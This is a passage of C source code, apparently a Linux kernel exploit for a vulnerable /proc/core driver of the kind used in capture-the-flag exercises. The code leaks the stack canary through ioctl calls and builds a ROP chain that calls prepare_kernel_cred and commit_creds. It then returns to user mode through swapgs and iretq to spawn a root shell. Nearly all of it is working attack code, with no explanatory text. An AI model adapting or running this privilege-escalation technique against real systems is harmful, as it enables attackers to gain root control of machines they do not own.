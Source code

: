 ```c
            printf("[*]vmlinux base => %llx\n",vmlinux_base);
        }
    }
}

size_t raw_vmlinux_base = 0xffffffff81000000;

int main()
{
    save_status();
    FindVmlinuxBase();
    printf("[*]prepare_kernel_cred addr:%p\n",prepare_kernel_cred);
    printf("[*]commit_creds addr:%p\n",commit_creds);
    //leak sth
    int core_fd = open("/proc/core",2);
    char* user_buf = (char*)malloc(0x50*sizeof(char));
    memset(user_buf,0,sizeof(char)*0x50);
    //set off=0x40
    ioctl(core_fd,0x6677889C,0x40);
    //read to user_buf
    ioctl(core_fd,0x6677889B,user_buf);
    size_t canary = ((size_t*)user_buf)[0];
    printf("[*]leaked canary:%p",canary);
    //rops
    size_t rop[0x1000];
    int i = 0;
    size_t offset = vmlinux_base - raw_vmlinux_base;
    for(i=0;i<10;i++)
        rop[i] = canary;
	rop[i++] = 0xffffffff81000b2f + offset; // pop rdi; ret
    printf("[*]p_rdi addr:%p\n",0xffffffff81000b2f+offset);
    rop[i++] = 0;
    rop[i++] = prepare_kernel_cred;         // prepare_kernel_cred(0)

    rop[i++] = 0xffffffff810a0f49 + offset; // pop rdx; ret
    rop[i++] = 0xffffffff81021e53 + offset; // pop rcx; ret
    rop[i++] = 0xffffffff8101aa6a + offset; // mov rdi, rax; call rdx; 
    rop[i++] = commit_creds;

    rop[i++] = 0xffffffff81a012da + offset; // swapgs; popfq; ret
    rop[i++] = 0;

    rop[i++] = 0xffffffff81050ac2 + offset; // iretq; ret; 

    rop[i++] = (size_t)GetRootShell;         // rip 

    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    write(core_fd, rop, 0x800);
    ioctl(core_fd, 0x6677889a,0xffffffffffff0000 | (0x100));

    return 0;
}
```
